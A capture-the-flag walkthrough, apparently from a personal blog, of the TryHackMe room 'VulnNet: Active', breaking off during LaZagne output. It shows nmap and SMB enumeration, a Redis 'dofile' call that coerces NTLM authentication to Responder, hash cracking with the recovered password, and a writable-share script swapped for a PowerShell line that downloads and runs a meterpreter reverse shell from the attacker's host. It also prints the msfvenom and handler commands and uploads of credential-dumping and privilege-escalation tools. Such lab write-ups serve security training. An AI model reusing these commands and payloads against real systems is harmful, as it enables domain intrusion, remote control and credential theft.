

# VulnNet: Active

[VulnNet: Active](https://tryhackme.com/room/vulnnetactive)

# Nmap :

## Tcp Scan :

- we have `-sCV` for finding version info of the services and running standard scripts from nmap on them
- we have `-p-` for scanning every port
- we have `-v` for turning verbose `on`

```
└─# nmap 10.49.163.212 -sCV -v -p-
Nmap scan report for 10.49.163.212
Host is up (0.045s latency).
Not shown: 65522 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
6379/tcp  open  redis         Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49799/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-11-06T13:16:17
|_  start_date: N/A
|_clock-skew: -1s
```

# Tcp Services :

## rpc :

```
└─# rpcclient 10.49.163.212 -N
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```

- We get Nothing!

## Smb :

```
└─# smbclient -L //10.49.163.212/ -N
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.49.163.212 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

└─# smbclient -L //10.49.163.212/ -U ''
Password for [WORKGROUP\]:
session setup failed: NT_STATUS_LOGON_FAILURE

```

- We get Nothing!

## Redis :

[6379 - Pentesting redis - MichalSzalkowski.com](https://michalszalkowski.com/pentesting-ports/6379-redis/)




### exploit :

#### Redis-cli :

```
─$ redis-cli -h 10.49.163.212 eval "dofile('//<your-ip>/test')" 0
(error) ERR Error running script (call to f_486b57eedb0e620299c513258dea6919faf4459b): @user_script:1: cannot open //192.168.138.204/test: Permission denied
```

#### Responder :

```
└─# responder -I tun0 -dPv
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

[*] Tips jar:
    USDT -> 0xCc98c1D3b8cd9b717b5257827102940e4E17A19A
    BTC  -> bc1q9360jedhhmps5vpl3u05vyg4jryrl52dmazz49

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]
    DHCPv6                     [OFF]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [192.168.138.204]
    Responder IPv6             [fe80::d339:d33e:556b:cef7]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-U47S0XEOELD]
    Responder Domain Name      [6BW1.LOCAL]
    Responder DCE-RPC Port     [49600]

[*] Version: Responder 3.2.2.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.49.163.212
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:5c528e9ad06b5662:1AEF0F3B1063B87E67C24BA16824C75A:010100000000000080CBE6B2C76EDD018FD8126C685C3F3B0000000002000800360042005700310001001E00570049004E002D0055003400370053003000580045004F0045004C00440004003400570049004E002D0055003400370053003000580045004F0045004C0044002E0036004200570031002E004C004F00430041004C000300140036004200570031002E004C004F00430041004C000500140036004200570031002E004C004F00430041004C000700080080CBE6B2C76EDD0106000400020000000800300030000000000000000000000000300000085341F8FFF5F9D14582DB0E8E432AC921E6B6C305076FD0616D13993D1B745C0A001000000000000000000000000000000000000900280063006900660073002F003100390032002E003100360038002E003100330038002E003200300034000000000000000000

```

#### hashcat :

```
└─# hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -O --potfile-disable
hashcat (v7.1.2) starting

Successfully initialized the NVIDIA main driver CUDA runtime library.

Failed to initialize NVIDIA RTC library.

* Device #1: CUDA SDK Toolkit not installed or incorrectly installed.
             CUDA SDK Toolkit required for proper device support and utilization.
             For more information, see: https://hashcat.net/faq/wrongdriver
             Falling back to OpenCL runtime.

nvmlDeviceGetFanSpeed(): Not Supported

OpenCL API (OpenCL 3.0 CUDA 13.2.88) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #01: NVIDIA GeForce RTX 5060 Laptop GPU, 7702/7702 MB (1925 MB allocatable), 26MCU

OpenCL API (OpenCL 3.0 PoCL 7.1+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 21.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #2 [The pocl project]
====================================================================================================================================================
* Device #02: cpu-skylake-avx512-AMD Ryzen 9 8940HX with Radeon Graphics, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 27
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 51

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 1031 MB (8017 MB free)

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ENTERPRISE-SECURITY::VULNNET:e540f7f95e58c7b1:f64ba3719ec5a365bebb6aee882a1668:010100000000000000dd8623216edd016e12e2d30c04670d00000000020008004f0044004b00450001001e00570049004e002d004200480041004400420031005400480055003000520004003400570049004e002d00420048004100440042003100540048005500300052002e004f0044004b0045002e004c004f00430041004c00030014004f0044004b0045002e004c004f00430041004c00050014004f0044004b0045002e004c004f00430041004c000700080000dd8623216edd0106000400020000000800300030000000000000000000000000300000888a4e6837ba4ce96ce1d83a4557eab80c8b366cd9e05884a2aaaaef3533110f0a001000000000000000000000000000000000000900280063006900660073002f003100390032002e003100360038002e003100330038002e003200300034000000000000000000:sand_0873959498

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: ENTERPRISE-SECURITY::VULNNET:e540f7f95e58c7b1:f64ba...000000
Time.Started.....: Sat Nov  7 15:02:23 2026 (1 sec)
Time.Estimated...: Sat Nov  7 15:02:24 2026 (0 secs)
Kernel.Feature...: Optimized Kernel (password length 0-27 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........: 28470.6 kH/s (1.22ms) @ Accel:288 Loops:1 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 5753467/14344385 (40.11%)
Rejected.........: 2683/5753467 (0.05%)
Restore.Point....: 3835760/14344385 (26.74%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: shany72512 -> martinho11
Hardware.Mon.#01.: Temp: 48c Util: 10% Core:1710MHz Mem:9001MHz Bus:8

Started: Sat Nov  7 15:02:22 2026
Stopped: Sat Nov  7 15:02:24 2026
```

# Enumeration with creds :

## Smb :

### Smbclient :

```
└─# smbclient -L //10.49.163.212/ -U Vulnnet/ENTERPRISE-SECURITY
Password for [VULNNET\ENTERPRISE-SECURITY]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Enterprise-Share Disk
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.49.163.212 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

### Smbmap :

```
└─# smbmap -u enterprise-security -p sand_0873959498 -d vulnnet.local -H 10.49.163.212 -r

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.49.163.212:445	Name: 10.49.163.212       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	Enterprise-Share                                  	READ, WRITE	
	./Enterprise-Share
	dr--r--r--                0 Sat Nov  7 15:06:15 2026	.
	dr--r--r--                0 Sat Nov  7 15:06:15 2026	..
	fr--r--r--               69 Wed Feb 24 06:03:18 2021	PurgeIrrelevantData_1826.ps1
	IPC$                                              	READ ONLY	Remote IPC
	./IPC$
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	InitShutdown
	fr--r--r--                4 Mon Jan  1 05:53:28 1601	lsass
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	ntsvcs
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	scerpc
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-3d8-0
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	epmapper
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-2b8-0
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	LSM_API_service
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	eventlog
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-420-0
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	atsvc
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	TermSrv_API_service
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	Ctx_WinStation_API_service
	fr--r--r--                4 Mon Jan  1 05:53:28 1601	wkssvc
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	SessEnvPublicRpc
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-2f8-0
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-2f8-1
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	RpcProxy\49668
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	a4448018d0916be0
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-368-0
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	RpcProxy\593
	fr--r--r--                4 Mon Jan  1 05:53:28 1601	srvsvc
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	spoolss
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-850-0
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	netdfs
	fr--r--r--                4 Mon Jan  1 05:53:28 1601	W32TIME_ALT
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-2e8-0
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-9b0-0
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	Amazon\SSM\InstanceData\health
	fr--r--r--                3 Mon Jan  1 05:53:28 1601	Amazon\SSM\InstanceData\termination
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	dotnet-diagnostic-3736
	fr--r--r--                1 Mon Jan  1 05:53:28 1601	Winsock2\CatalogChangeListener-994-0
	NETLOGON                                          	READ ONLY	Logon server share
	./NETLOGON
	dr--r--r--                0 Tue Feb 23 15:00:50 2021	.
	dr--r--r--                0 Tue Feb 23 15:00:50 2021	..
	SYSVOL                                            	READ ONLY	Logon server share
	./SYSVOL
	dr--r--r--                0 Tue Feb 23 15:00:50 2021	.
	dr--r--r--                0 Tue Feb 23 15:00:50 2021	..
	dr--r--r--                0 Tue Feb 23 15:00:50 2021	vulnnet.local
[*] Closed 1 connections
```

## rpc :

### rpcclient :

```
└─# rpcclient 10.49.163.212 -U Vulnnet/ENTERPRISE-SECURITY
Password for [VULNNET\ENTERPRISE-SECURITY]:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[enterprise-security] rid:[0x44f]
user:[jack-goldenhand] rid:[0x450]
user:[tony-skid] rid:[0x451]
rpcclient $> exit
```

- We create a users file

```
└─# cat users.txt
Administrator
Guest
krbtgt
enterprise-security
jack-goldenhand
tony-skid
```

### enum4linux-ng

```
└─# enum4linux-ng -A -u 'ENTERPRISE-SECURITY' -p 'sand_0873959498' 10.49.163.212
ENUM4LINUX - next generation (v1.3.10)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.49.163.212
[*] Username ......... 'ENTERPRISE-SECURITY'
[*] Random Username .. 'nwoboewv'
[*] Password ......... 'sand_0873959498'
[*] Timeout .......... 10 second(s)

 ======================================
|    Listener Scan on 10.49.163.212    |
 ======================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: timed out
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: timed out
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.49.163.212    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.49.163.212    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.0.2: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.1.1
SMB1 only: false
SMB signing required: true

 ============================================================
|    Domain Information via SMB session for 10.49.163.212    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: VULNNET-BC3TCK1
NetBIOS domain name: VULNNET
DNS domain: vulnnet.local
FQDN: VULNNET-BC3TCK1SHNQ.vulnnet.local
Derived membership: domain member
Derived domain: VULNNET

 ==========================================
|    RPC Session Check on 10.49.163.212    |
 ==========================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for password authentication
[+] Server allows authentication via username 'ENTERPRISE-SECURITY' and password 'sand_0873959498'
[*] Check for guest access
[-] Could not establish guest session: STATUS_LOGON_FAILURE

 ====================================================
|    Domain Information via RPC for 10.49.163.212    |
 ====================================================
[+] Domain: VULNNET
[+] Domain SID: S-1-5-21-1405206085-1650434706-76331420
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.49.163.212    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: '500'
Server type: '0x80102b'
Server type string: Wk Sv PDC Tim NT

 ======================================
|    Users via RPC on 10.49.163.212    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[+] Found 6 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 6 user(s) via 'enumdomusers'
[+] After merging user results we have 6 user(s) total:
'1103':
  username: enterprise-security
  name: Enterprise Security
  acb: '0x00000210'
  description: TryHackMe
'1104':
  username: jack-goldenhand
  name: Jack Goldenhand
  acb: '0x00000210'
  description: (null)
'1105':
  username: tony-skid
  name: Tony Skid
  acb: '0x00000210'
  description: (null)
'500':
  username: Administrator
  name: (null)
  acb: '0x00000210'
  description: Built-in account for administering the computer/domain
'501':
  username: Guest
  name: (null)
  acb: '0x00000215'
  description: Built-in account for guest access to the computer/domain
'502':
  username: krbtgt
  name: (null)
  acb: '0x00020011'
  description: Key Distribution Center Service Account

 =======================================
|    Groups via RPC on 10.49.163.212    |
 =======================================
[*] Enumerating local groups
[+] Found 5 group(s) via 'enumalsgroups domain'
[*] Enumerating builtin groups
[+] Found 28 group(s) via 'enumalsgroups builtin'
[*] Enumerating domain groups
[+] Found 15 group(s) via 'enumdomgroups'
[+] After merging groups results we have 48 group(s) total:
'1101':
  groupname: DnsAdmins
  type: local
'1102':
  groupname: DnsUpdateProxy
  type: domain
'498':
  groupname: Enterprise Read-only Domain Controllers
  type: domain
'512':
  groupname: Domain Admins
  type: domain
'513':
  groupname: Domain Users
  type: domain
'514':
  groupname: Domain Guests
  type: domain
'515':
  groupname: Domain Computers
  type: domain
'516':
  groupname: Domain Controllers
  type: domain
'517':
  groupname: Cert Publishers
  type: local
'518':
  groupname: Schema Admins
  type: domain
'519':
  groupname: Enterprise Admins
  type: domain
'520':
  groupname: Group Policy Creator Owners
  type: domain
'521':
  groupname: Read-only Domain Controllers
  type: domain
'522':
  groupname: Cloneable Domain Controllers
  type: domain
'525':
  groupname: Protected Users
  type: domain
'526':
  groupname: Key Admins
  type: domain
'527':
  groupname: Enterprise Key Admins
  type: domain
'544':
  groupname: Administrators
  type: builtin
'545':
  groupname: Users
  type: builtin
'546':
  groupname: Guests
  type: builtin
'548':
  groupname: Account Operators
  type: builtin
'549':
  groupname: Server Operators
  type: builtin
'550':
  groupname: Print Operators
  type: builtin
'551':
  groupname: Backup Operators
  type: builtin
'552':
  groupname: Replicator
  type: builtin
'553':
  groupname: RAS and IAS Servers
  type: local
'554':
  groupname: Pre-Windows 2000 Compatible Access
  type: builtin
'555':
  groupname: Remote Desktop Users
  type: builtin
'556':
  groupname: Network Configuration Operators
  type: builtin
'557':
  groupname: Incoming Forest Trust Builders
  type: builtin
'558':
  groupname: Performance Monitor Users
  type: builtin
'559':
  groupname: Performance Log Users
  type: builtin
'560':
  groupname: Windows Authorization Access Group
  type: builtin
'561':
  groupname: Terminal Server License Servers
  type: builtin
'562':
  groupname: Distributed COM Users
  type: builtin
'568':
  groupname: IIS_IUSRS
  type: builtin
'569':
  groupname: Cryptographic Operators
  type: builtin
'571':
  groupname: Allowed RODC Password Replication Group
  type: local
'572':
  groupname: Denied RODC Password Replication Group
  type: local
'573':
  groupname: Event Log Readers
  type: builtin
'574':
  groupname: Certificate Service DCOM Access
  type: builtin
'575':
  groupname: RDS Remote Access Servers
  type: builtin
'576':
  groupname: RDS Endpoint Servers
  type: builtin
'577':
  groupname: RDS Management Servers
  type: builtin
'578':
  groupname: Hyper-V Administrators
  type: builtin
'579':
  groupname: Access Control Assistance Operators
  type: builtin
'580':
  groupname: Remote Management Users
  type: builtin
'582':
  groupname: Storage Replica Administrators
  type: builtin

 =======================================
|    Shares via RPC on 10.49.163.212    |
 =======================================
[*] Enumerating shares
[+] Found 6 share(s):
ADMIN$:
  comment: Remote Admin
  type: Disk
C$:
  comment: Default share
  type: Disk
Enterprise-Share:
  comment: ''
  type: Disk
IPC$:
  comment: Remote IPC
  type: IPC
NETLOGON:
  comment: Logon server share
  type: Disk
SYSVOL:
  comment: Logon server share
  type: Disk
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share Enterprise-Share
[+] Mapping: OK, Listing: OK
[*] Testing share IPC$
[+] Mapping: OK, Listing: NOT SUPPORTED
[*] Testing share NETLOGON
[+] Mapping: OK, Listing: OK
[*] Testing share SYSVOL
[+] Mapping: OK, Listing: OK

 ==========================================
|    Policies via RPC for 10.49.163.212    |
 ==========================================
[*] Trying port 445/tcp
[+] Found policy:
Domain password information:
  Password history length: 24
  Minimum password length: 7
  Minimum password age: 1 day 4 minutes
  Maximum password age: 41 days 23 hours 53 minutes
  Password properties:
  - DOMAIN_PASSWORD_COMPLEX: true
  - DOMAIN_PASSWORD_NO_ANON_CHANGE: false
  - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false
  - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false
  - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false
  - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: false
Domain lockout information:
  Lockout observation window: 30 minutes
  Lockout duration: 30 minutes
  Lockout threshold: None
Domain logoff information:
  Force logoff time: not set

 ==========================================
|    Printers via RPC for 10.49.163.212    |
 ==========================================
[-] Could not get printers via 'enumprinters': WERR_INVALID_NAME

Completed after 42.75 seconds
```

## Kerberos :

### Kerbrute :

```
└─# kerbrute userenum users.txt -d vulnnet.local --dc 10.49.163.212

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (9cfb81e) - 11/07/26 - Ronnie Flathers @ropnop

2026/11/07 15:25:44 >  Using KDC(s):
2026/11/07 15:25:44 >  	10.49.163.212:88

2026/11/07 15:25:45 >  [+] VALID USERNAME:	 jack-goldenhand@vulnnet.local
2026/11/07 15:25:45 >  [+] VALID USERNAME:	 Administrator@vulnnet.local
2026/11/07 15:25:45 >  [+] VALID USERNAME:	 tony-skid@vulnnet.local
2026/11/07 15:25:45 >  [+] VALID USERNAME:	 enterprise-security@vulnnet.local
2026/11/07 15:25:45 >  Done! Tested 6 usernames (4 valid) in 0.088 seconds
```

- No asrep roasting :(

# Shell as Enterprise-Security

- We got this file on the share `Enterprise-Share`

```
└─# cat PurgeIrrelevantData_1826.ps1
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```

- This could be a task based upon the cmd it contains
- So we replace it with a msfvenom reverse shell

```
└─# cat PurgeIrrelevantData_1826.ps1
Invoke-WebRequest -Uri "http://192.168.138.204:1111/rev_shell.exe" -OutFile "$env:TEMP\rev_shell.exe"; Start-Process "$env:TEMP\rev_shell.exe"
```

```
└─# smbclient //10.48.137.46/Enterprise-Share -U Vulnnet/Enterprise-Security
Password for [VULNNET\Enterprise-Security]:
Try "help" to get a list of possible commands.
smb: \> put PurgeIrrelevantData_1826.ps1
putting file PurgeIrrelevantData_1826.ps1 as \PurgeIrrelevantData_1826.ps1 (0.4 kB/s) (average 0.4 kB/s)
smb: \> exit

```

- The msfvenom payload created by

```
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.48.137.46 LPORT=8888 -f exe -o rev_shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 509 bytes
Final size of exe file: 7680 bytes
Saved as: rev_shell.exe
```

- We have running python http server in that directory where we have msfvencom payload

```
└─# python -m http.server 1111
Serving HTTP on 0.0.0.0 port 1111 (http://0.0.0.0:1111/) ...
10.48.137.46 - - [07/Nov/2026 15:46:33] "GET /rev_shell.exe HTTP/1.1" 200 -
```

- We see that a http request was made
- We get out shell

```
└─# msfconsole -q
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST tun0
LHOST => 192.168.138.204
msf exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.138.204:8888
[*] Sending stage (255679 bytes) to 10.48.137.46
[*] Meterpreter session 1 opened (192.168.138.204:8888 -> 10.48.137.46:49896) at 2026-11-07 15:46:57 +0530

meterpreter > getuid
Server username: VULNNET\enterprise-security
```

- We get our user flag

```
C:\Users\enterprise-security\Desktop>type user.txt
type user.txt
THM{<Redacted>}
```

# Enumerating with Enterprise-Security user

- We upload SharpHound.exe , LaZagne.exe ,  winPEASx64.exe ,  JuicyPotatoNG.exe , Snaffler.exe , nc.exe

```
meterpreter > upload LaZagne.exe
[*] Uploading  : /home/akhilbangaru/Downloads/LaZagne.exe -> LaZagne.exe
[*] Uploaded 8.00 MiB of 9.67 MiB (82.76%): /home/akhilbangaru/Downloads/LaZagne.exe -> LaZagne.exe
[*] Uploaded 9.67 MiB of 9.67 MiB (100.0%): /home/akhilbangaru/Downloads/LaZagne.exe -> LaZagne.exe
[*] Completed  : /home/akhilbangaru/Downloads/LaZagne.exe -> LaZagne.exe
meterpreter > upload winPEASx64.exe
[*] Uploading  : /home/akhilbangaru/Downloads/winPEASx64.exe -> winPEASx64.exe
[*] Uploaded 8.00 MiB of 10.71 MiB (74.73%): /home/akhilbangaru/Downloads/winPEASx64.exe -> winPEASx64.exe
[*] Uploaded 10.71 MiB of 10.71 MiB (100.0%): /home/akhilbangaru/Downloads/winPEASx64.exe -> winPEASx64.exe
[*] Completed  : /home/akhilbangaru/Downloads/winPEASx64.exe -> winPEASx64.exe
meterpreter > upload JuicyPotatoNG.exe
[*] Uploading  : /home/akhilbangaru/Downloads/JuicyPotatoNG.exe -> JuicyPotatoNG.exe
[*] Uploaded 150.00 KiB of 150.00 KiB (100.0%): /home/akhilbangaru/Downloads/JuicyPotatoNG.exe -> JuicyPotatoNG.exe
[*] Completed  : /home/akhilbangaru/Downloads/JuicyPotatoNG.exe -> JuicyPotatoNG.exe
meterpreter > upload Snaffler.exe
[*] Uploading  : /home/akhilbangaru/Downloads/Snaffler.exe -> Snaffler.exe
[*] Uploaded 483.00 KiB of 483.00 KiB (100.0%): /home/akhilbangaru/Downloads/Snaffler.exe -> Snaffler.exe
[*] Completed  : /home/akhilbangaru/Downloads/Snaffler.exe -> Snaffler.exe
meterpreter > upload nc.exe
[*] Uploading  : /home/akhilbangaru/Downloads/nc.exe -> nc.exe
[*] Uploaded 37.71 KiB of 37.71 KiB (100.0%): /home/akhilbangaru/Downloads/nc.exe -> nc.exe
[*] Completed  : /home/akhilbangaru/Downloads/nc.exe -> nc.exe
```

## LaZagne

```
C:\Users\enterprise-security\Downloads>LaZagne.exe all
LaZagne.exe all

|====================================================================|
|                                                                    |
